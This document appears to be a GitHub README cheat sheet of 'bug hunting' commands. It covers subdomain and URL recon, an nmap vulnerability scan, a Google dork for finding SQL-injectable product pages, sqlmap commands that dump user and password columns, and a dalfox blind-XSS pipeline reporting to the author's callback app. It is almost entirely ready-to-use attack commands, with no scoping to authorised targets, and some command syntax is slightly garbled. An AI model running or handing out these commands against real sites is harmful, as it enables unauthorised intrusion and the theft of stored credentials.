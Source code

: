 # Bag-huntinh-cmd

                                     Advance Information gathering
                                     -----------------------------


$  subfinder -d  (domin name) -o output.txt

$  httpx -list output.txt -o active.txt -threads 200 -status-code -tech-detect

$  httpx -list example.com -silent -prob -o max.txt

$  cat active.txt | waybackurls > url.txt 

$  sort url.txt | uniq > mainurl.txt 

$  gf sqli mainurl.txt | tee sqli.txt 





					Use Of Nmap
				     -----------------



$  ping (url)

$  nmap (url) --script=vuln -d 






					My Sql Attack
				     ===================



search in browser .:    inurl:product.php?id=
--------------------


$  sqlmap -u (url) --dbs

$  sqlmap -u (url) -D (database name ) --tables

$  sqlmap -u (url) -D (database name ) -T user --columns

$  sqlmap -u (url) -D (database name ) -T -c user;pass --dump









											Automate XSS Hunting 
										     ==========================
										     



$  subfinder -d (Domin name) | gau > suburl.txt


$  cat suburl.txt |uro > url.txt 


$  gf xss url.txt |dalfox pipe -b (our blind xss webapp 2nd link)
